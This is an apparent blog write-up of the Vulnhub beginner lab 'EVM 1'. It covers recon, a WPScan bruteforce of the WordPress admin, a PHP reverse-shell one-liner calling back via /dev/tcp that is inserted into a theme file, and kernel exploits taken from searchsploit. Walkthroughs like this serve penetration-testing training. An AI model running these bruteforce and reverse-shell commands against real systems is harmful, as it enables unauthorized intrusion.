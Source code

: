 +++
title = "Vulnhub: EVM 1"
date = "2021-03-05"
author = ""
authorTwitter = "" #do not include @
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Password Bruteforce", "WordPress", "WPScan"]
keywords = ["", ""]
description = ""
showFullContent = false
cover = "/img/evm/evm.png"
images = ["/img/evm/evm.png"]
+++



| Difficulty | Release Date | Author |
| ---------- | ------------ | ------ | 
| Beginner   | 2 Nov 2019   | Ic0de  | 


# Summary

This was an easy box, initial foothold was on wordpress. You needed to bruteforce the admin creds
then get a reverse shell via editing a theme file to get the reverse shell. Escalating to root
was straightforward as we found the root password in a txt file. Some kernel exploits could have also
been used for privilege escalation.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.103
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA RESP-CODES SASL AUTH-RESP-CODE TOP UIDL PIPELINING
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more post-login LOGINDISABLEDA0001 ID LOGIN-REFERRALS listed IMAP4rev1 have capabilities OK ENABLE Pre-login LITERAL+ SASL-IR IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2021-03-04T15:43:32-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-03-04T20:43:32
|_  start_date: N/A
```

# Enumeration

## Samba (139,445)

Running smbmap and smbclient there's not much there.

```sh
smbmap -R -H 192.168.56.103

smbclient -L \\192.168.56.103 -N
```

{{< image src="/img/evm/evm1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From enum4linux-ng we only get a username

```sh
enum4linux-ng -A -R 192.168.56.103
```

{{< image src="/img/evm/evm2.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

## HTTP (80)

Visiting the ip on the browser there's only the apache default page.

Running directory bruteforce, we discover wordpress. 

{{< image src="/img/evm/evm3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Wordpress:

{{< image src="/img/evm/evm4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the comments hint towards bruteforcing credentials.

{{< image src="/img/evm/evm5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Bruteforcing the login page on wordpress we get the password `24992499`

```sh
wpscan --url http://192.168.56.103/wordpress/ -U c0rrupt3d_brain -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -t 100
```

{{< image src="/img/evm/evm7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as www-data
With admin access we can edit one of the wordpress theme files to get a reverse shell with this php payload.

```php
<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.56.1/9000 0>&1 &'")?>
```

{{< image src="/img/evm/evm6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Loading the following url we get a reverse shell.

```
http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php
```

{{< image src="/img/evm/evm8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Changing directory to /home there's one user's folder. Looking at all the files in this directory there's a hidden
file with the root user's password.
 
{{< image src="/img/evm/evm9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as root

Using the password `willy26` I switched to the root user.

{{< image src="/img/evm/evm10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Extras

Privilege escalation could have also been achieved via kernel exploit.

{{< image src="/img/evm/evm11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The box is running ubuntu 16.04.3 and kernel version 4.4.0-87. Searching for exploits using searchsploit
we get several hits.

{{< image src="/img/evm/evm12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Getting the first local privilege escalation script and transferring the compiled binary to the target, it works.
```sh
searchsploit -m 45010

gcc 45010.c -o pwn
```

{{< image src="/img/evm/evm13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The second one `44298` also works.

{{< image src="/img/evm/evm14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}
